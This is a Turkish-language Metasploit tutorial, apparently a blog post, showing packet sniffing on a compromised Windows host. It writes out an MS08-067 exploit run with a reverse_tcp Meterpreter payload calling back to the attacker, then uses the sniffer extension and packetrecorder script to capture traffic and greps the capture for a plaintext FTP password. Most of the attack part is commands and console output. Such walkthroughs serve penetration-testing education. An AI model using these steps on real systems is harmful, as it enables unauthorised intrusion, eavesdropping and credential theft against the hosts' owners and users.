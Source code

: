 ```yaml
---
draft: false

title:  'MSF Paket Dinleme'
date: '2017-06-05T13:32:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme\_paket dinleme\_adı verilmektedir." 
 
url:  /tr/msf-paket-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Paket Dinleme

Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.

Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.

Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.

## Meterpreter Oturum Açalım

Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.
```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.126
msf exploit(ms08_067_netapi) > set RHOST 10.10.1.119
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(216 bytes)
> Sending stage (205824 bytes)
> Meterpreter session 1 opened (10.10.1.4:4444 -> 10.10.1.119:1921)
```

## Sinffer Modülünü Yükleyelim

Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.
```bash
meterpreter > use sniffer
Loading extension sniffer...success.

meterpreter > help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```

## Dinlenebilir Arayüzler

Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.
```bash
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```

## Dinlemeye Başlama

Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.
```bash
meterpreter > sniffer_start 1
> Capture started on interface 1 (200000 packet buffer)
```

## Kayıtları Kontrol Etme

Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.
```bash
meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 199 packets to PCAP file /tmp/all.cap
```

## packetrecorder Eklentisi

Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.

<h3 class="wp-block-heading" id="packetrecorder-aktif-hale-getirelim">packetrecorder Aktif Hale Getirelim
```bash
meterpreter > run packetrecorder 
Meterpreter Script for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```

Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.
```bash
meterpreter > run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
2 - 'Citrix XenServer PV Ethernet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
3 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
```

Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.
```bash
meterpreter > run packetrecorder -i 2 -l /root/
> Starting Packet capture on interface 2
[+] Packet capture started
> Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
> Packet capture interval is 30 Seconds
^C
> Interrupt 
[+] Stopping Packet sniffer...
meterpreter >
```

Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.
```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```
